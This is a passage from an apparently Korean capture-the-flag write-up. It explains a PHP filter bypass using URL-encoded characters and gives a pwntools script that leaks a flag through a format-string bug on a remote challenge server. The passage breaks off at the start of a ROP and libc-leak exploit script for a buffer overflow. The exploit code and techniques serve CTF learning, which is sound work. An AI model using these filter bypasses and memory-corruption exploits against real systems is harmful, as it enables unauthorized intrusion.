 ```$_SERVER['REQUEST_URI']```은 URL decoding이 되지 않은 상태로 요청한 URL을 저장하기 때문에 a 를 %61 로 요청하면 필터링을 가볍게 우회하고 ```$_GET['flag']```에 값을 전달하여 플래그를 얻을 수 있다. 

from pwn import *

e = ELF('./life_game')
# p = process(e.path)

# context.log_level = 'debug'

flag = ""
for i in range(100):
    # p = process(e.path)
    p = remote('layer7.kr', 12000)
    p.sendline('5')
    p.sendline('3')
    p.sendline('-349859345')
    p.sendline('3')
    p.sendline('-23872839423')
    p.sendline('5')
    p.sendline('31337')
    p.sendline('%{0}$p'.format(i + 1))

    p.recvuntil('your last one : ')
    data = p.recvuntil('Good Bye~!').replace('Good Bye~!', '')
    print data
    data = data.replace('\n', '').replace('0x', '')
    data = "0" * (8 - len(data)) + data
    data = data.decode('hex')[::-1]
    flag += data
    print data
    print flag

```

[*] flag : ```LAYER7{L1f3..1s..P0k3m0n_or_D1g1m0n..wh4t?}```



### talmoru_party~!

```fges()```로 0x20000 바이트까지 받을 수 있는데 이 때 Overflow가 생긴다.  마땅히 입력받을 수가 없기 때문에 기본적인 ROP로는 풀 수가 없고, Libc base를 leak해서 system 함수를 실행시키면 된다. 

```python
#!/usr/bin/python
# coding: utf-8

from pwn import *
import sys

stdin = 0x0804A060
pr = 0x08048425
pppr = 0x08048849
bss = 0x0804a040 + 0x40
offset = 0x24f00

def main():

    e = ELF("./talmo_party")

    if len(sys.argv) > 1:
        p = process(e.path)
        libc = e.libc

    else:
        p = remote("layer7.kr", 12003)
        libc = ELF("layer7.so.6")
```